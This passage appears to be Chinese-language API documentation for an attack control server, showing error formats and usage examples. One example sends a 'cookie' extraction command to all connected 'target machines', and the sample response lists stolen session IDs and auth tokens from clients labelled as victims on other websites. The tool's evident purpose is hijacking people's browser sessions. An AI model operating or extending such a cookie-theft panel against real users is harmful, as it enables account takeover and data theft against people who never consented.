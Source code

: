## 🚨 错误响应

### 错误格式
```json
{
  "status": "error",
  "message": "错误描述",
  "timestamp": "2025-01-20T10:35:00Z",
  "error": "详细错误信息"
}
```

### 常见错误代码
- `400` - 请求错误 (无效JSON、缺少参数)
- `404` - 未找到 (客户端不存在)
- `500` - 服务器内部错误

---

## 🔍 使用示例

### 示例 1: 获取指定项目的所有连接的客户端
```bash
curl -X GET "http://localhost:8088/api/clients?project=PROJ123456"
```

### 示例 2: 向项目内所有靶机发送 Cookie 提取命令
```bash
curl -X POST "http://localhost:8088/api/commands?project=PROJ123456" \
  -H "Content-Type: application/json" \
  -d '{
    "command": "cookie"
  }'

# 响应示例:
{
  "status": "success",
  "message": "命令执行完成，收到 2 个结果",
  "data": {
    "command": "cookie",
    "results": [
      {
        "client_id": "victim_123",
        "command": "cookie", 
        "result": "session_id=abc123; auth_token=xyz789",
        "url": "https://site1.com",
        "timestamp": 1640995200
      },
      {
        "client_id": "victim_456", 
        "command": "cookie",
        "result": "user_id=789; csrf_token=def456", 
        "url": "https://site2.com",
        "timestamp": 1640995201
      }
    ],
    "count": 2
  }
}
```
